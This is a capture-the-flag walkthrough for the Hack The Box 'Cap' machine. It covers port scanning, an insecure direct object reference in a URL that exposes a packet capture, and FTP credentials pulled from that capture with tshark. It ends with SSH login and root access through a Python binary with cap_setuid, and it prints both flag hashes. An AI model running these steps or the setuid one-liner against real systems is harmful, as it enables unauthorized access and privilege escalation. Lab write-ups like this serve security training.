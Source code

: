 ![Cap.PNG](/assets/Machines/Easy/Cap/cap.png)


1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 1 10.10.10.245
```


2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.10.10.245
```

**Output**
```bash
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```


3. Visit page

![web.PNG](/assets/Machines/Easy/Cap/web.PNG)


4. Click on `Security Snapshot`

![security.PNG](/assets/Machines/Easy/Cap/security.PNG)

* URL is: `http://10.10.10.245/data/1`

5. Change the last number in **URL** and search info.

* URL: `http://10.10.10.245/data/0`

![info.PNG](/assets/Machines/Easy/Cap/info.PNG)


6. Download the file
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Cap]
└─| file 0.pcap 
0.pcap: pcap capture file, microsecond ts (little-endian) - version 2.4 (Linux cooked v1, capture length 262144)
```

* The file is **.pcap** you can open with **Wireshark** or **tshark**

7. Open the file with **tshark**
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Cap]
└─| tshark -r 0.pcap
```

**Output**
```bash
36   4.126500 192.168.196.1 → 192.168.196.16 FTP 69 Request: USER nathan
37   4.126526 192.168.196.16 → 192.168.196.1 TCP 56 21 → 54411 [ACK] Seq=21 Ack=14 Win=64256 Len=0
38   4.126630 192.168.196.16 → 192.168.196.1 FTP 90 Response: 331 Please specify the password.
39   4.167701 192.168.196.1 → 192.168.196.16 TCP 62 54411 → 21 [ACK] Seq=14 Ack=55 Win=1051136 Len=0
40   5.424998 192.168.196.1 → 192.168.196.16 FTP 78 Request: PASS Buck3tH4TF0RM3!
```

* The file have credentials, but, you can filter most especific

8. Ways to filter data
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Cap]
└─| tshark -r 0.pcap -Y 'ftp'
```

* Search how **ftp/tcp/http...**

---
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Cap]
└─| tshark -r 0.pcap -Y 'ftp' -Tjson 2>/dev/null
```

* Show information in Json

**Output**
```json
...
"tcp.analysis": {
            "tcp.analysis.acks_frame": "67",
            "tcp.analysis.ack_rtt": "0.000101000",
            "tcp.analysis.initial_rtt": "0.000364000",
            "tcp.analysis.bytes_in_flight": "14",
            "tcp.analysis.push_bytes_sent": "14"
          },
          "tcp.payload": "32:32:31:20:47:6f:6f:64:62:79:65:2e:0d:0a"
...
```

---
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Cap]
└─| tshark -r 0.pcap -Y 'ftp' -Tfields -e tcp.payload 2>/dev/null
```

* Filter for a especific field

```bash
323230202876734654506420332e302e33290d0a
55534552206e617468616e0d0a
33333120506c656173652073706563696679207468652070617373776f72642e0d0a
50415353204275636b33744834544630524d33210d0a
323330204c6f67696e207375636365737366756c2e0d0a
535953540d0a
32313520554e495820547970653a204c380d0a
504f5254203139322c3136382c3139362c312c3231322c3134300d0a
32303020504f525420636f6d6d616e64207375636365737366756c2e20436f6e7369646572207573696e6720504153562e0d0a
4c4953540d0a
313530204865726520636f6d657320746865206469726563746f7279206c697374696e672e0d0a
323236204469726563746f72792073656e64204f4b2e0d0a
504f5254203139322c3136382c3139362c312c3231322c3134310d0a
32303020504f525420636f6d6d616e64207375636365737366756c2e20436f6e7369646572207573696e6720504153562e0d0a
4c495354202d616c0d0a
313530204865726520636f6d657320746865206469726563746f7279206c697374696e672e0d0a
323236204469726563746f72792073656e64204f4b2e0d0a
5459504520490d0a
32303020537769746368696e6720746f2042696e617279206d6f64652e0d0a
504f5254203139322c3136382c3139362c312c3231322c3134330d0a
32303020504f525420636f6d6d616e64207375636365737366756c2e20436f6e7369646572207573696e6720504153562e0d0a
52455452206e6f7465732e7478740d0a
353530204661696c656420746f206f70656e2066696c652e0d0a
515549540d0a
32323120476f6f646279652e0d0a
```

---
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Cap]
└─| tshark -r 0.pcap -Y 'ftp' -Tfields -e tcp.payload 2>/dev/null | xxd -ps -r
```

* Convert hexadecimal data in plain text

```bash
220 (vsFTPd 3.0.3)
USER nathan
331 Please specify the password.
PASS Buck3tH4TF0RM3!
230 Login successful.
SYST
215 UNIX Type: L8
PORT 192,168,196,1,212,140
200 PORT command successful. Consider using PASV.
LIST
150 Here comes the directory listing.
226 Directory send OK.
PORT 192,168,196,1,212,141
200 PORT command successful. Consider using PASV.
LIST -al
150 Here comes the directory listing.
226 Directory send OK.
TYPE I
200 Switching to Binary mode.
PORT 192,168,196,1,212,143
200 PORT command successful. Consider using PASV.
RETR notes.txt
550 Failed to open file.
QUIT
221 Goodbye.
```

9. Credentials to login `username: nathan` and `password: Buck3tH4TF0RM3!`

10. Login with ssh
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Cap]
└─| sshpass -p "Buck3tH4TF0RM3\!" ssh nathan@10.10.10.245
```

* The password is `Buck3tH4TF0RM3!`, but, you scape the special character to fix errors.


**Output**
```bash
nathan@cap:~$
```

11. Cat a **user flag**
```bash
nathan@cap:~$ cat user.txt 
0262d1b1331698269a1b63a0d3ccf484
```

---
---

## Escalate privileges 💀

1. Search all capabilities 
```bash
nathan@cap:~$ getcap -r / 2>/dev/null
```


**Output**
```bash
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

* **Python3.8** is available, now we exploit this.


2. Get `/bin/bash` how root
```bash
nathan@cap:~$ python3.8 -c "import os; os.setuid(0); os.system('/bin/bash')"
root@cap:~| whoami
root
```

3. Read **root flag**
```bash
root@cap:~| cat /root/root.txt 
ab8755bcb4cb8d4d4a841921e7862111
```

